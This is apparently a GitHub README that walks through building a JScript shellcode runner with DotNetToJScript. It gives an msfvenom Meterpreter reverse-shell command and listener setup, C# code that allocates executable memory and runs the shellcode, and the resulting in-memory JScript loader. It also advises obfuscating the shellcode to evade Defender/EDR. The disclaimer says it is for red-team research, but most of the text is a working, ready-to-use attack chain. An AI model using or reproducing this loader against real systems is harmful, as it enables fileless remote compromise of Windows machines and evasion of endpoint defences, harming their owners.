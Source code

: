 ## **Jscript Shellcode Runner**
 embedding **C# shellcode runner** into Jscript using **DotNetToJscript**.

## Overview
This project demonstrates how to embed a C# shellcode runner inside JScript using DotNetToJScript.  
It’s for **red team research and educational purposes only**.  

### Why JScript
- **JScript (.js on Windows)** runs through **Windows Script Host** directly:
    - **Bypasses browser security settings**.
    - Can interact with **ActiveX technology** and WSH engine.
- Result: Full system interaction without browser limitations.
### **Why Combine JScript and C#?**

- **Problem**: JScript alone cannot directly call **Win32 APIs**.
- **Solution**: Embed a **compiled C# assembly** inside JScript.
    - This gives JScript access to the **.NET Framework**, similar to PowerShell.
    - Allows payloads to run **entirely from memory**, bypassing disk-based detection.

### Step 1: **Create shellcode**

- Generate **64-bit C# byte array shellcode** 

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.2.142 LPORT=4444 -f csharp
```
  
- Start listener
    
```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.2.142; set LPORT 4444; run"
``` 
- Copy the full byte array (`buf`).

### Step 2: **Create a New Project**

1. Open **Visual Studio**.
2. Go to **File → New → Project**.
3. Select:
  - **Class Library (.NET Framework)** (not Console App).
  - Choose **.NET Framework 4.x** (DotNetToJScript works best with .NET 4).
4. Name it `ExampleAssembly`.
5. Click **Create**.

### Step 3: Modify ExampleAssembly (C#)

Add imports & execution logic in `TestClass`:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
  [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
  static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
    uint flAllocationType, uint flProtect);

  [DllImport("kernel32.dll")]
  static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  [DllImport("kernel32.dll")]
  static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  public TestClass()
  {
        byte[] buf = new byte[626] {0xfc,0x48,0x83,0xe4,0xf0,0xe8...};
  
        int size = buf.Length;
  
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);		
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
  }
  
}

```
  
  ### Step 4: Compile as x64
  
  - Ensure **platform = x64**.
  - Copy compiled DLL to [DotNetToJscript release](https://github.com/tyranid/DotNetToJScript/releases/download/v1.0.4/release_v1.0.4.7z) folder.
  
  ### Step 5: Generate JScript Payload
  
  ```cmd
  .\DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
  ```
  the output runner.js would be like this
  ```js
function setversion() {
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
function debug(s) {}
function base64ToStream(b) {
	var enc = new ActiveXObject("System.Text.ASCIIEncoding");
	var length = enc.GetByteCount_2(b);
	var ba = enc.GetBytes_4(b);
	var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
	ba = transform.TransformFinalBlock(ba, 0, length);
	var ms = new ActiveXObject("System.IO.MemoryStream");
	ms.Write(ba, 0, (length / 4) * 3);
	ms.Position = 0;
	return ms;
}

var serialized_obj = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+
"AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
"dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+
.
.
.
.
;
var entry_class = 'TestClass';

try {
	setversion();
	var stm = base64ToStream(serialized_obj);
	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
	var al = new ActiveXObject('System.Collections.ArrayList');
	var d = fmt.Deserialize_2(stm);
	al.Add(undefined);
	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
	
} catch (e) {
    debug(e.message);
}
  ```   
  
### Step 6: Execution

- Double-click `runner.js`.
- Spawns **Meterpreter reverse shell** after a short delay.
<img width="1411" height="275" alt="image" src="https://github.com/user-attachments/assets/368b3511-72bd-4002-9d3d-5c86751d0030" />

---

## Requirements
- Windows 10/11 (x64)
- Visual Studio 2019/2022 (with .NET Framework 4.x SDK)
- [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)
- Metasploit Framework (for payload + listener)
- Execution Policy allowing `.js` execution (default in Windows)

## Notes
- Payload executes entirely in memory (fileless execution).
- Defender/EDR may block it — obfuscation or encryption of shellcode may be required.
- Since it uses ActiveX + WSH, execution is outside browser sandbox.

